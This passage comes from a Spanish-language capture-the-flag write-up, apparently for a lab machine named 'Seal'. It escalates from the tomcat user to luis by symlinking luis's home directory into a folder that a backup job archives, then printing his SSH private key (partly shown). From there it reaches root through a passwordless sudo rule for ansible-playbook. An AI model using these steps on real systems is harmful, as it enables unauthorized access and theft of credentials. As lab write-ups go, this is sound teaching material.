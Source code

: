 ```shell
tomcat@seal:/opt/backups/archives$ ls
backup-2023-03-14-23:05:32.gz  backup-2023-03-14-23:06:32.gz  backup-2023-03-14-23:07:32.gz  backup-2023-03-14-23:08:32.gz
```
En este punto podremos abusar de esto, primero buscamos una ruta donde tengamos permisos se escritura.

```shell
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ find . -writable
./uploads
```
Sabiendo que la carpeta uploads tienen permisos se escritura podemos hacer el link simbólico a los archivos que tiene luis en su directorio.

```shell
tomcat@seal:/$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
tomcat@seal:/opt/backups/archives$ ls -la
total 114676
drwxrwxr-x 2 luis luis      4096 Mar 14 23:13 .
drwxr-xr-x 4 luis luis      4096 Mar 14 23:13 ..
-rw-rw-r-- 1 luis luis    606047 Mar 14 23:10 backup-2023-03-14-23:10:32.gz
-rw-rw-r-- 1 luis luis    606047 Mar 14 23:11 backup-2023-03-14-23:11:32.gz
-rw-rw-r-- 1 luis luis    606047 Mar 14 23:12 backup-2023-03-14-23:12:32.gz
-rw-rw-r-- 1 luis luis 115599082 Mar 14 23:13 backup-2023-03-14-23:13:32.gz
```
Pasamos el archivo a la carpeta tmp y procedemos a descomprimirlo y ahí podremos leer los archivos de luis como su id_rsa.

```shell
tomcat@seal:/tmp/privesc/dashboard/uploads/luis/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
<SNIP>
```
Enumeramos los permisos sudo del usuario.

```shell
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```
En este punto solo hacemos lo pasos que nos muestran en gtfobins para tener una shell como root.
